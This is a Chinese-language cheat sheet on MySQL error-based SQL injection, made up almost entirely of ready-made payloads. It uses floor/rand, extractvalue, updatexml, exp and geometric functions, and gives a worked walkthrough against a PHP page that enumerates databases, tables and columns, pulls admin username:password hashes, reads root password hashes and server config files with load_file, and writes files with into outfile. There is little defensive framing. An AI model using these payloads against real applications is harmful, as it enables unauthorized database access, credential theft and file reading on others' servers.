

mysql在执行 SQL语句的时 如果语句有错 会返回报错信息，在与php结合使用的时候默认并不会把报错的信息在页面显示出来。

如果要在php显示出来 将在执行语句的时候使用mysql_error() 才可以把错误的信息 显示到页面。

```php
$result=mysql_query("select * from article where id=$id") or die(mysql_error());
```

 

## 1、判断注入

and 1=1
and 1=2

## 2、爆库

id=info()将会得到当前库的名  FUNCTION target_sys.info does not exist

```http
http://target_sys.com/mysqlinj.php?id=info()
```

## 3、一些报错语句

### 1、通过floor暴错

**数据库版本**

```http
and(select 1 from(select count(*),concat((select (select (select concat(0x7e,version(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

**简单办法暴库**

```http
id=info()
```

**连接用户**

```http
and(select 1 from(select count(*),concat((select (select (select concat(0x7e,user(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

**连接数据库**

```http
and(select 1 from(select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

**暴库**

```http
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

**暴表**

```http
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

**暴字段**

```http
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_name=0x61646D696E LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

**暴内容**

```http
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

### 2、ExtractValue(有长度限制,最长32位)

```http
and extractvalue(1, concat(0x7e, (select @@version),0x7e))

and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1)))
```

### 3、UpdateXml(有长度限制,最长32位)

```http
and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)

and updatexml(1,concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1),0x7e),1)
```

### 4、NAME_CONST(适用于低版本)

```http
and+1=(select+*+from+(select+NAME_CONST(version(),1),NAME_CONST(version(),1))+as+x)--
```

### 5、[Error based Double Query Injection ](http://www.vaibs.in/error-based-double-query-injection/)

**数据库版本**

```http
or+1+group+by+concat_ws(0x7e,version(),floor(rand(0)*2))+having+min(0)+or+1
```

还有一些报错语句

#### 1.floor()

```http
select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);
```

#### 2.extractvalue()

```http
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
```

#### 3.updatexml()

```http
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
```

#### 4.geometrycollection()

```http
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
```

#### 5.multipoint()

```http
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
```

#### 6.polygon()

```http
select * from test where id=1 and polygon((select * from(select * from(select user())a)b));
```

#### 7.multipolygon()

```http
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
```

#### 8.linestring()

```http
select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
```

#### 9.multilinestring()

```http
select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
```

#### 10.exp()

```http
select * from test where id=1 and exp(~(select * from(select user())a));
```

## 4、实战报错注入

当前用户名

```http
http://target_sys.com/mysqlinj.php?id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))
```

root密码

```http
http://target_sys.com/mysqlinj.php?id=1 and (extractvalue(1,concat(0x7e,(select password from mysql.user),0x7e))) 
```

查询库

```http
http://target_sys.com/mysqlinj.php?id=-1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

查询下一个库，把 FROM informFation_schema.schemata LIMIT 0,1) 这个部分的0 一直往后推可以得到所有库的名

查询表

```http
http://target_sys.com/mysqlinj.php?id=-1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

查询下一个表，把table_schema=database() LIMIT 0,1) 这个部分的0一直往后推可以得到查询库的所有表名

查询字段

查询admin的表，首先把admin 转换成十六进制，再放到语句去

```http
http://target_sys.com/mysqlinj.php?id=-1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_name=0x61646D696E LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

查询第二个字段 0x61646D696E LIMIT 0,1 这个0 往后推 

查询数据(可能查不出来)

```http
http://target_sys.com/mysqlinj.php?id=-1 and (select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

updatexml方法查询数据

```http
http://target_sys.com/mysqlinj.php?id=-1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1),0x7e),1)
```

上面这种查询 只能查询32位 所以有些部分查询不出来。可以先查询密文 或者先查询长度的 再进行字符长度的截取。

```http
http://target_sys.com/mysqlinj.php?id=-1 and updatexml(1,concat(0x7e,(SELECT distinct LENGTH(concat(0x23,username,0x3a,password,0x23)) FROM admin limit 0,1),0x7e),1)
```

LENGTH 函数 查询的长度为40

SUBSTRING()字符串截取函数

查询 1-32 	admin:e10adc3949ba59abbe56e057

```http
http://target_sys.com/mysqlinj.php?id=-1 and updatexml(1,concat(0x7e,(SELECT distinct SUBSTRING(concat(0x23,username,0x3a,password,0x23),1,32) FROM admin limit 0,1),0x7e),1)
```

查询32-40 f20f883e

```http
http://target_sys.com/mysqlinj.php?id=-1 and updatexml(1,concat(0x7e,(SELECT distinct SUBSTRING(concat(0x23,username,0x3a,password,0x23),33,40) FROM admin limit 0,1),0x7e),1)
```

 再后将字符并接起来就是完整的的数据

 admin:e10adc3949ba59abbe56e057f20f883e

## 5、读取文件操作

**extractvalue 读取文件**

```http
http://target_sys.com/mysqlinj.php?id=-1 and (extractvalue(1,concat(0x7e,(select load_file('C:\\inetpub\\wwwroot\\target_sys.com\\data\\config.inc.php')),0x7e)))
```

**exp方法读取(最好用这种)**

```http
http://target_sys.com/mysqlinj.php?id=1 and (exp(~(select*from(select load_file('C:\\inetpub\\wwwroot\\target_sys.com\\data\\config.inc.php'))a))); 
```

写文件

```http
http://target_sys.com/mysqlinj.php?id=-1 and exp(~(select*from(select 'hello')a)) into outfile 'C:\\inetpub\\wwwroot\\target_sys.com\\data\\config.inc.txt';
```

写文件默认就是只能写入0行到文件里面 ,需配合其他漏洞使用